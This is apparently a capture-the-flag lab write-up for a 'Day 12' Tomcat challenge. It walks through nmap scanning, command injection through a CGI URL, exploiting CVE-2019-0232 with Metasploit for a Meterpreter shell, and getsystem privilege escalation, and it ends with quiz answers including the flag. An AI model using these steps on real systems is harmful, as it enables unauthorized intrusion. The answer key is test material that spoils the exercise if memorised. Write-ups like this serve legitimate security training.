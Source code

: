 #Day-12
....................................................................
====================================================================
Day 12: Ready, set, elf. - Prelude:

Christmas is fast approaching, yet, all remain silent at The Best Festival Company (TBFC). What gives?! The cheek of those elves - slacking at the festive period! Santa has no time for slackers in his workshop. After all, the sleigh won't fill itself, nor will the good and naughty lists be sorted. Santa has tasked you, Elf McEager, with whacking those elves back in line.
====================================================================
....................................................................
#Steps I aquire to gain acccess:
----------------------------------
lets nmap the target to get some basic enumeratioon going.
nmap -A -sC -sV -oN intial 10.10.206.126

by nmaping the target we found that there is tomcat server on the port 8080 and the server version is 9.0.17.

and on we found the cgi custom script on: http://10.10.206.126:8080/cgi-bin/elfwhacker.bat

the server is running Microsoft Windows Server 2019 Standard.
and tghe version of server is: 10.0.17763 N/A Build 17763
we found the above information by going on: http://10.10.206.126:8080/cgi-bin/elfwhacker.bat?&systeminfo

now lets search on the exploit-db or we can use searchsploit to search the exploit related to this tom cat version.

so we found the exploit which is: CVE-2019-0232

now lets set up the metploit to explit the cgi code exicution vulnarability.

 RHOST      : 10.10.206.126
 LHOST      : your tun0 ip
 TARGETURL  : /cgi-bin/elfwhacker.bat

 exploit

we go the meterpreter session.
now run the command: shell

now we have the shell of that server.

dir to list the file and we found our flag there.

more flag1.txt
the above windows command to show the file conntent in terminal.

now lets try to excalate the shell to admin level.

background this session:

now lets use the post exploits to excalate vertically.

use post/windows/escalate/getsystem

then set the options:

set SESSION 1

set the session id above now run it.

exploit.

now we have excalated the shell to admin level.

....................................................................
====================================================================
....................................................................

#1	What is the version number of the web server?
	Ans: 9.0.17

#2	What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)
	Ans: CVE-2019-0232

#3	Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.
	Ans: No answer needed.

#4	What are the contents of flag1.txt
	Ans: thm{whacking_all_the_elves}

#5	Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
	Ans: use post/windows/excalate/getsystem

....................................................................
====================================================================